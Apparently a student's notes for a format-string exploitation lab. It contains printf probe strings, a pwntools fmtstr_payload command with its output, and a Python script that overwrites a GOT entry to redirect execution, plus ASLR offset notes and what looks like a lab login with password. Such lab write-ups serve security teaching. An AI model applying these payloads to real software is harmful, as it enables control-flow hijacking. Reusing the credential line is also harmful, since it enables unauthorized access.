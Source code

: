 # Lab 05
```
lab05@52.201.10.159
9a6d5757
```

input: `AAAA%1$x.%2$x`
output: `AAAAbfde5820.41414141`

```
$ nm crackme0x00 | grep secret
0804a050 D secret
```

```
AAAA%1$p.%2$p
AAAA%1$s.%2$s
AAAA%1$x.%2$x
```

```
$ python2 -c "from pwn import*; print(fmtstr_payload(4, {0xaaaaaaaa: 0xc0ffee}, 10))"
\xaa\xaa\xaa\xaa\xab\xaa\xaa\xaa\xac\xaa\xaa\xaa\xad\xaa\xaa\xaa%212c%4$hhn%17c%5$hhn%193c%6$hhn%64c%7$hhn
```

# Tutorial
1. First we needed to find the offset. Wrote some python code to find this in `tut/jake.py`.
	Or:
```
def exec_fmt(payload):
    p = process(exe)
    p.sendline(payload)
    return p.recvall()

def getOffset():
    return FmtStr(exec_fmt).offset

# Find our addresses
target_binary = ELF(exe)
printKeyAddr = target_binary.symbols['print_key']
putsAddr = target_binary.got['puts']
secretAddr = target_binary.symbols['secret']
writes = {secretAddr: 0x0, putsAddr: printKeyAddr}

# Create payload
padding = "bb"
payload = padding +fmtstr_payload(getOffset(),
                                  writes,
                                  numbwritten=15+5,
                                  write_size='byte')
```
1. Next, we find the number of bytes written (numbwritten) still not sure what this meant. Just need to bruteforce it.
1. Try to write to our address.

# libbase
Need to account for ASLR

## Running commands:
```
./target < <(cyclic 500)
r < <(cyclic 500)
```

## thoughts
stack address -> GOT address -> real address

Using the leaked address that we see on the stack and the static address in the objdump, we can find the randomized offset.

We can also keep calling main and it wont keep randomizing.

# Moving Target
base address of SO              // b main; info proc mappings
+ offset                        // readelf -s | grep my_func 
= position of code at runtime   //

base_addr_libc = 0xf7de8000
offset_jump_to_here = 0x824

# References
## READ THIS
* [Bypassing ASLR and DEP](https://codingvision.net/security/bypassing-aslr-dep-getting-shells-with-pwntools)
* [poor canary](https://github.com/ENOFLAG/writeups/blob/master/hxpctf2018/poor_canary.md)
* [Good string format tutorial](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
* [Lab tutorial](https://tc.gts3.org/cs6265/2020-spring/tut/tut05-fmtstr.html)
* [The Advanced Return-into-lib(c) Exploits](http://phrack.org/issues/58/4.html)
* [Stack Smashing as of Today](docs/Blackhat-Europe-2009-Fritsch-Bypassing-aslr-slides.pdf)
* [Exploiting Format String Vulnerabilities](docs/formatstring-1.2.pdf)
* [pwntools-snippets](https://github.com/tnballo/notebook/wiki/Pwntools-Snippets)
